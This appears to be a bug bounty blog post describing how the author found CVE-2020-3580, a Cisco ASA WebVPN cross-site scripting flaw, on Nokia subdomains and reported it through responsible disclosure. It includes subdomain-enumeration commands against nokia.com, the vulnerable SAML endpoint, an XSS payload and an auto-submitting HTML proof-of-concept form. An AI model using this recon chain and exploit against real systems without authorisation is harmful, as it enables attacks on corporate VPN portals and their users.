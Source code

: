 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #2980B9;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h2 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h2>
The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

<h3 style="color: #27AE60;">Subdomain Enumeration:</h3>
I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following 
tools: **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains.

````bash
subfinder -d nokia.com -o nokia-subdomains.txt 
amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

````
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
````

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed. To test for the vulnerability, we need to send a POST request to ``/+CSCOE+/saml/sp/acs?tgname=a`` with the ``SAMLResponse`` parameter set to a payload that triggers the XSS vulnerability. The payload is: ``"><svg/onload=alert("xss")>``

## POC:

````
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
````
</br>

<h2 style="color: #27AE60;">⚠️ CVE-2020-3580 on Nokia Subdomains:</h2>

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.
</br>
</br>
![XSS](https://raw.githubusercontent.com/kakarotWrites/kakarotwrites.github.io/refs/heads/master/assets/3.png)

</br>

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

